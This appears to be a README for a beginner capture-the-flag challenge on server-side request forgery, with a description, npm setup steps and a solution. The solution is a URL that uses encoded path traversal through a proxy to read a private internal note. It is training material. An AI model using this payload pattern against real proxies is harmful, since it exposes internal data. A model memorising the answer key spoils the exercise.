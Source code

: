 # Simple SSRF
Difficulty: 2/10

## Description
A proxy server servs public notes in the internal server. break out, read the private note.

## set-up
As simple as:
```
npm install
npm init
```
## Solution:
```
http://ip:5050/proxy/internal_website/..%2fprivate%2fprivate_note
```
